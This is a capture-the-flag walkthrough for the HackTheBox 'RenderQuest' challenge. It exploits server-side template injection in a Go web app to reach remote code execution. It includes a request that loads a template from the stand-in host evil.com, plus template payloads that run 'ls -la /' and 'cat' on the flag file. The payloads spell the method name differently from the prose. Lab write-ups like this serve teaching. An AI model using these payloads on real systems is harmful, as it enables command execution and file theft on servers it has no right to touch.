







# RenderQuest - HackThebox Challenge [EASY]

`This walkthrough was carried out using the local environment in Docker, to use the real environment you need a public IP to connect to make the HTTP request.`

## Recon / Code review

- The application has 2 main files, namely, ***main.go*** and ***index.tpl***, with main.go containing the application's business logic, and index being the initial view of the page.

- Analyzing the context of the application, we can see that it is an application that returns server data to a template loaded internally or remotely in the system.

  

  - The ***page*** parameter is used to load the sent templates, and there is also a parameter called **use_remote**, a boolean to validate whether the requests will be internal or made remotely.

    ​      `render?use_remote=true&page=http://evil.com/index.tpl`

- Reading the ***main.go*** file, we identified a function that makes calls to the operating system based on a parameter passed to it.

  

- The initial idea was to figure out how to call this ***FetchServerInfo*** function, passing parameters to it, and shortly after, this idea was realized, and exploitation was performed.

## Testing application

- Based on everything that was discovered, I started testing the application's functionalities. Let's try to upload a template remotely and extract some of the functions established by default in the application.

  - I then created a template using the ***ServerInfo.Hostname*** function available by default in the application.

    

    After creating it, I tried to load this template remotely to see if it would return the server's hostname.

    

    Returned the server's hostname, so we were able to figure out how to interact with the application.

## Exploitation

- Searching the internet for common vulnerabilities in golang template systems, I found this article: https://www.onsecurity.io/blog/go-ssti-method-research/. This article provides exactly what we are looking for to exploit the template system and execute the previously discovered function.

  - ***Note:*** To exploit the desired method, we need to evaluate whether the method is an "exported method" because the template system package will call the method. In Golang, starting the method name with uppercase letters is not just aesthetic; it is to identify that the method is "exported." This nomenclature means that the method can be called by packages different from the one it was defined in.

  - Evaluating the case: We can see that the "***FetchServerInfo***" method is an exported method, so we can try to use it to achieve RCE in the application.
  - Changing our template, we can call the method and pass a command in the parameter.

  

  Uploading our web server again and calling our template through the application.

  

  Pwned!!

## Flag

- The flag has a random ID, so we'll take two steps to identify it.
  -  First step: Let's change the content of our template to ***{{.FetchInfoServer "ls -la /"}}*** and then check the flag's ID.
  - Second step: Let's modify the payload to view the content of the flag: ***{{.FetchInfoServer "cat /flag$$$$$$.txt"}}***
  
   The $ simulates the flag's ID.

